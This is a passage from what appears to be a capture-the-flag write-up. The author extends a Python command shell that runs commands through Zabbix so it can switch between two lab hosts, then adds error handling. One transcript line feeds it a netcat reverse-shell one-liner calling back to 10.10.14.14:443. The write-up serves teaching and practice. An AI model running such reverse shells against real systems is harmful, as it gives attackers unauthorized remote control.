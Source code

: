 Finally one cosmetic change. I’ll update the prompt to show the current host:

```

 57         cmd = raw_input('\033[41m[' + hosts[execute_on]  + '_cmd]>>: \033[0m ')

```

Now I can run this shell, and change which host I’m interacting with:

```

root@kali# python zipper_shell.py
[*] Current host is zabbix

[zabbix_cmd]>>:  hostname
91cae047f48a

[zabbix_cmd]>>:  host zipper
[*] Current host is zipper

[zipper_cmd]>>:  hostname
zipper
[zipper_cmd]>>:  host zabbix
[*] Current host is zabbix

[zabbix_cmd]>>:  hostname
91cae047f48a

[zabbix_cmd]>>:  host 0xdf # invalid host option leaves host the same
[*] Current host is zabbix

```

I did make one other change to the shell. I noticed when I gave it a reverse shell, it would eventually timeout, and crash the shell:

```

[zipper_cmd]>>:  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443>/tmp/f
Traceback (most recent call last):
  File "zipper_shell.py", line 93, in <module>
    print cmd_exe["result"]["value"]
KeyError: 'result'

```

I can fix this by adding a `try`:

```

 93         try:
 94             print cmd_exe["result"]["value"]
 95         except KeyError:
 96             print("[-] Unexpected data: ")
 97             print(cmd_exe)

```
